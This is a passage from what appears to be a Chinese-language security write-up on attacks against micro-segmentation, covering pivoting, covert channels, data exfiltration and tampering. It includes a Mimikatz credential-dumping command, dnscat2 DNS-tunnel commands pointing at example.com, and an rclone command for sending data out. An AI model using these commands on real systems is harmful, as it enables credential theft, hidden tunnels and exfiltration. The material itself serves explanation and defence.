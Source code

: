 ### 2.2 横向移动攻击
#### 2.2.1 跳板攻击
攻击者通过攻陷一台主机，利用其作为跳板，向其他隔离区域发起攻击。

**技术解析**：
- 微隔离通常限制不同区域之间的通信，但同一区域内的主机可能具有较高的信任关系。
- 攻击者通过利用被攻陷主机的信任关系，向其他主机发起攻击。

**利用步骤**：
1. 获取目标主机的权限。
2. 使用工具（如`Mimikatz`）提取凭据。
   ```bash
   mimikatz.exe privilege::debug sekurlsa::logonpasswords
   ```
3. 使用提取的凭据，向其他主机发起攻击。

#### 2.2.2 隐蔽通道
攻击者通过创建隐蔽通道，绕过微隔离策略，实现横向移动。

**技术解析**：
- 隐蔽通道通常利用合法协议（如DNS、HTTP）进行数据传输。
- 攻击者通过将恶意数据封装在合法协议中，绕过策略引擎的检测。

**利用步骤**：
1. 在被攻陷主机上安装隐蔽通道工具（如`DNSCat2`）。
   ```bash
   ./dnscat2-server --dns domain=example.com
   ```
2. 在攻击者主机上启动客户端，建立连接。
   ```bash
   ./dnscat2 --dns domain=example.com
   ```
3. 通过隐蔽通道进行数据传输。

### 2.3 数据泄露攻击
#### 2.3.1 数据外泄
攻击者通过合法或非法手段，将敏感数据传输到外部。

**技术解析**：
- 微隔离通常限制外部访问，但可能无法完全阻止数据外泄。
- 攻击者通过合法服务（如云存储）或隐蔽通道，将数据传输到外部。

**利用步骤**：
1. 获取目标主机的权限。
2. 使用工具（如`rclone`）将数据上传到云存储。
   ```bash
   rclone copy /path/to/data remote:backup
   ```
3. 验证数据是否成功传输。

#### 2.3.2 数据篡改
攻击者通过修改或删除敏感数据，破坏系统的完整性。

**技术解析**：
- 微隔离通常无法防止数据篡改，除非部署额外的完整性保护机制。
- 攻击者通过获取权限，直接修改或删除数据。
